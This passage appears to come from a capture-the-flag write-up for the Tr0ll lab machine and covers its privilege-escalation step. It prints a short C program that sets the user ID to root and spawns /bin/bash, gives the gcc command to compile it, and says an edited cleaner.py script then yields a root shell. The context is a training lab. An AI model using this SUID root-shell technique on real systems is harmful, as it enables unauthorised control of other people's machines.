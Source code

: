 In order to exploit this, I created an suid.c file in /tmp:
```C
int main(void){
setresuid(0, 0, 0);
system("/bin/bash");
}
```

I then compiled the file:
```bash
gcc -o suid suid.c
```

Then I edited the **cleaner.py** file.

![image](/assets/images/Tr0ll/cleaner.png)

Running the python and then the suid file would result in a root shell.

![image](/assets/images/Tr0ll/suid.png)

![image](/assets/images/Tr0ll/flag.png)

